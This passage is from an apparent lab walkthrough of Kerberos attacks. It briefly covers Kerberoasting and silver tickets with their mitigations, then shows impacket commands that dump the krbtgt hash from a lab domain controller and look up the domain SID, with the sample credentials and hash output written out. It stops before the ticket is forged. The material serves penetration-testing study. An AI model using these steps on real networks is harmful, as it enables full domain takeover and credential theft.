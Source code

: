 * **Kerberoasting:** Allows offline cracking of service account passwords using SPNs.
* **Silver Ticket Attacks:** Allows forging of Kerberos TGS tickets to impersonate real or fake users.

**Mitigations:**

* Use long, complex passwords for service accounts.
* Rotate service account passwords regularly.
* Restrict service account privileges and login capabilities.

# Kerberos Golden Ticket Lab Walkthrough

## 1. Using Domain Admin Credentials

**Command:**

```bash
impacket-wmiexec 'hirapo.com/sqlservice2:Database2!@sql01.hirapo.com'
```

**Result:**

```
STATUS_LOGON_TYPE_NOT_GRANTED - Logon not permitted for service account.
```

## 2. Dumping KRBTGT Hash

**Command:**

```bash
impacket-secretsdump 'hirapo.com/sqlservice2:Database2!@dc.hirapo.com' -just-dc-user krbtgt
```

**Result Highlights:**

```
krbtgt NT hash: d488f80321a1e387179634fc964a53a4
krbtgt AES128: e633d31b7cfbab1a394d14e883dd99b7
```

Note: AES keys preferred due to newer Windows Server hardening.

## 3. Gathering Domain SID

**Command:**

```bash
impacket-lookupsid 'hirapo.com/sqlservice2:Database2!@dc.hirapo.com' 500
```

**Result:**

```
Domain SID: S-1-5-21-3665665769-2465453898-254577537
```

**Optional Domain Recon:**
